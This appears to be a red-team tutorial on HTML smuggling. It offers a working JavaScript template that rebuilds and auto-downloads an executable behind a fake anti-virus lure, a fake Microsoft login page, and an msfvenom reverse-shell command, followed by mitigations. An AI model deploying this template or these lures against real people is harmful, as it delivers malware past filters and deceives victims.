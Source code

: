 # HTML Smuggling

## Summary
HTML Smuggling has been around for a while, but it has seen an uptick in its usage lately with malware like Qakbot utilizing it. 
## What is it?
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag.
## What are anchor tags?
The anchor tag <a> defines a hyperlink that can be used to link one page to another resource like the script, other HTML page or downloadable files. When <a> is used with the “download” attribute, it can be used to provide links to a downloadable file. 
## What is a Javascript Blob?
JavaScript blobs are objects that are a collection of bytes that contain data stored in a file. Blob data is stored in the user’s memory. This collection of bytes can be used in the same places where an actual file would have been used. In other words, blobs can be used to construct file-like objects on the client that can be passed to JavaScript APIs that expect URLs.
Blobs are very useful for storing binary data because their content can be easily read as an ArrayBuffer. Blobs can be stored in the memory or on disk by the web browser, and they can represent truly massive bits of data that are too large to fit in the main memory unless first separated into smaller pieces with the slice () method.
The syntax for creating a JavaScript blob may be defined as:
```
new Blob("blobParts, options");
```
- Blobparts: It is an array of Blob, BufferSource, and string values.
- Options: It is an optional object.
- Type: It is a Blob type, generally MIME-type like image.png.

An example would be:
```
<!DOCTYPE html>  
<html>  
<head>  
    <meta charset="utf-8">  
    <title>JavaScript Blob</title>  
</head>  
<body>  
    <p id="main"></p>  
    <script>  
var abc = new Blob(["Wassup Playa"],   
{type : "text/plain"});  
var def = new FileReader();  
def.addEventListener("loadend", function(e) {  
document.getElementById("main").innerHTML  
     = e.srcElement.result;  
});  
def.readAsText(abc);  
</script>  
</body>  
</html>  
```
Let’s break this down:

1.	We start our HTML document with the tag HTML
2.	This is followed by <head> to indicate a header, where you can store things like meta tags as well as a title
3.	<title> is what will show at the top of the tab
4.	<body> starts the body of the HTML file
5.	<p> is to indicate a parameter. In this case we are specifying ‘main’ as an id element. Later in the HTML we will be referencing this ID. 
6.	<script> indicates that what comes next is Javascript
7.	var abc = new Blob(["Wassup Playa"],   {type : "text/plain"});  We can see this follows the Javascript Blob syntax I mentioned earlier. The text here, Wassup Playa, is what we will want shown on the page, thus it is the data element, in this case being a string value. Then its followed by the MIME type of text/plain. All of this is being assigned to the variable abc, so that whenever abc is used, it really means this Blob that has the string value of Wassup Playa
8.	Next we see a variable assigning FileReader. The FileReader object lets web applications asynchronously read the contents of files (or raw data buffers) stored on the user's computer, using File or Blob objects to specify the file or data to read. This is assigned to the variable def. https://developer.mozilla.org/en-US/docs/Web/API/FileReader 
9.	It is using the FileReader component of addEventListener, which sets up a function that will be called whenever the specified event is delivered to the target. It has the syntax of addEventListener(type, listener) So in our code, the type is FileReader’s loadend event https://developer.mozilla.org/en-US/docs/Web/API/FileReader/loadend_event The loadend event is fired when a file read has completed, successfully or not. Next part is function(e). Function is the function to run when the event occurs, which in this case is the loadend event. 
10.	Next it looks through the document table and gets the element named ‘main’, which we defined earlier in the start of our paragraph. innerHTML sets or returns the HTML content (inner HTML) of an element. In the case of our code, it is setting or changing the value that was in the element with the id of ‘main’ to e.srcElement.result
11.	Next, we see the readAsText portion. This starts reading the contents of the specified Blob, once finished, the result attribute contains the contents of the file as a text string. The Blob is referenced by its variable abc.
12.	The rest of the code just closes out the rest of the HTML document

If we save that and run it in a browser we will see the words Wassup Playa. 
## HTML5 Download Attribute
One way that we can get a user to download something is using the download attribute from HTML5. For this I hosted an Atomic Red Team test dll called s.dll. The raw file can be found [here](https://github.com/sh1katagana1/RedTeam/raw/main/s.dll) So my HTML page that I would send to the victim could look like this (obviously this is not very pretty, just functional for testing)
```
<html>
<body>
<h1>Microsoft Login Page!</h1>
<p>Alert! We detected some unusual activity, Login to continue. </p>
<a href="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll" download="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll">Login Here</a>
</body>
</html>
```
If we load that page we should see the Microsoft Login Page! text and it should prompt for download of s.dll when you click "login to continue". You can see how it can be crafted in whatever way you want, but all that’s being emailed is the HTML that does this. Additionally, the victim may have their browser at default settings which wouldn’t give this prompt but just download it. 

## Malicious Smuggle Test
Now that we have seen benign usage of some ways to do HTML Smuggling, lets try with an actual binary. For this I am using a renamed version of dnscat because I know Defender blocks it as malicious. The dnscat executable I have renamed to leroy3.exe. My test is based off of examples found [here](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

![](smuggle1.png)

First, we need to base64 encode it because the binary can’t directly be copied as a buffer because it contains various characters that might break the buffer and full file may not be copied that way. We use the base64 tool in Kali:
```
Cat leroy.exe | base64
```

![](smuggle2.png)

It is a fairly long output. The issue with this is there is “enter” or carriage returns and its not all in one single line. In order to supply this into our blob as a buffer, we need a single string with no enters. To do this we go [here](https://base64.guru/converter/encode/file) and upload our file and convert it to base64 as plain text-just the base64 value:

![](smuggle3.png)

The goal is to create a JavaScript Blob and a script that will allow us as an attacker to make our code recompile as an EXE file at the victim end. This approach can bypass many content filters and firewalls since the data is travelling as a string text. Here is the template we can use, just replace var binary='<value>' with the actual Base64 string value
```
<html>
<body>
<h1>Malware Detected!</h1>
<p>Alert! Run the downloaded script for anti-virus scan!</p>
<script>
function b64toarray(base64) {
        var bin_string = window.atob(base64);
        var len = bin_string.length;  
        var bytes = new Uint8Array( len );
        for (var i = 0; i < len; i++)
        {
                bytes[i] = bin_string.charCodeAt(i);
        }
        return bytes.buffer;
}
var binary ='<value>'

var data = b64toarray(binary);
var blob = new Blob([data], {type: 'octet/stream'});
var payloadfilename = 'payload.exe';

var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none'; 
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = payloadfilename;
a.click();
window.URL.revokeObjectURL(url);
</script>
</body>
</html>
```
First, let’s see the results of it, then we can break down whats going on in the script. So when someone gets this HTML and opens it, it will automatically craft the executable from the base64 content and then download it without anyone needing to click a link. Some peoples browsers may simply download without a prompt, so keep that in mind. 

![](smuggle4.png)

There we see it automatically starts the download upon me visiting the page, because of the click() function, and a message stating that whatever was downloaded needs to be run to scan for viruses (of course be more crafty than this). I allow the download and then we can run strings on it to verify it is indeed the dnscat executable. 

![](smuggle5.png)

![](smuggle6.png)

We do see code above indicating it is indeed dnscat. Lets break down what the code is doing:
1.	Function b64toarray: Takes input of our base64 encoded binary file and converts it into a buffer array. This is necessary as the “Blob()” function takes input from a buffer array as the first parameter.
2.	Variable binary: This variable contains the base64 string of our binary and is used to provide function b64toarray input. Replace Value with our base64 encoded string.
3.	Variable blob: Holds the blob we just created and takes two inputs as explained above. Here, since we are providing a binary as input the MIME type becomes octet/stream
4.	Variable payloadfilename: It is the name that will be given to our binary once it is downloaded on the victim’s machine. This is what you would want to name to be convincing to the victim.
5.	CreateElement: A DOM function that can create new HTML elements with the help of JavaScript. For example to create a new para in HTML we type: \<p>New Para\</p>
6.	style: We are using the styling ‘display: none’ to be more discreet so that a tag isn’t visible on the output.
7.	createObjectURL(): A DOM function that can return a DOMString containing a value that represents the URL of an object. This object can be a file, media source or in our case blob. It is very necessary as the a.download works on valid URLs only. For our payload blob to be downloaded on the victim, we need to supply the a.download element with a valid URL which this function returns.
8.	click(): Is what will trigger this anchor tag to automatically run. It simulates as if a user has actually clicked on the link provided by the href tag.

You can also fir up Kali and try this with an msfvenom created payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.129.132 LPORT=1234 -f exe > payload.exe
```
Base64 encode this on base64.guru and try the same template. 

## Mitigations
- Configure security products to block against pages using JS or VBScript from automatically running a downloaded executable. Windows Attack Surface Reduction Rules are handy for this https://learn.microsoft.com/en-us/mem/intune/protect/endpoint-security-asr-profile-settings  - Specifically the following rules:
	- Block execution of potentially obfuscated scripts (js/vbs/ps)
	- Block JavaScript or VBScript from launching downloaded executable content
- Whitelist executable filenames
- Set .js and .jse to open with notepad by default and not a browser
- Educate users to manually review e-mail attachments
- Set behaviour rules for HTML pages that decode base64 code or obfuscate a JS script.
- Microsoft’s Safe Links and Safe Attachments provide real-time protection against HTML smuggling and other email threats by utilizing a virtual environment to check links and attachments in email messages before they are delivered to recipients. Thousands of suspicious behavioral attributes are detected and analyzed in emails to determine a phishing attempt

## References
![https://blog.delivr.to/html-smuggling-recent-observations-of-threat-actor-techniques-74501d5c8a06](https://blog.delivr.to/html-smuggling-recent-observations-of-threat-actor-techniques-74501d5c8a06) \
![https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/) \
![https://github.com/SofianeHamlaoui/Pentest-Notes/blob/master/offensive-security/defense-evasion/file-smuggling-with-html-and-javascript.md](https://github.com/SofianeHamlaoui/Pentest-Notes/blob/master/offensive-security/defense-evasion/file-smuggling-with-html-and-javascript.md) \ 
![https://www.cyfirma.com/outofband/html-smuggling-a-stealthier-approach-to-deliver-malware/](https://www.cyfirma.com/outofband/html-smuggling-a-stealthier-approach-to-deliver-malware/) \
![https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/html-smuggling-the-hidden-threat-in-your-inbox/](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/html-smuggling-the-hidden-threat-in-your-inbox/) \
![https://micahbabinski.medium.com/html-smuggling-detection-5adefebb6841](https://micahbabinski.medium.com/html-smuggling-detection-5adefebb6841) \
![https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/) \

